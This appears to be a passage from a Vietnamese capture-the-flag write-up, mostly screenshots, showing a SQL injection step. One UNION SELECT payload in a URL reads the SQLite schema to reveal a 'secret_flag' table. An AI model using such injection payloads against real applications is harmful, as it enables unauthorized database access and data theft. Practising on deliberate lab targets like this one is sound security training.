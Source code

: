 ![image-20230308150148633](./assets/image-20230308150148633.png)

Khai thác các cột hợp lệ và mình tìm được cột `flag`

```
/item?id=1+union+select+1,2,sql,4+FROM+sqlite_master+WHERE+type!='meta'+AND+sql+NOT+NULL+AND+name+='secret_flag'--+-
```

![image-20230308150351095](./assets/image-20230308150351095.png)

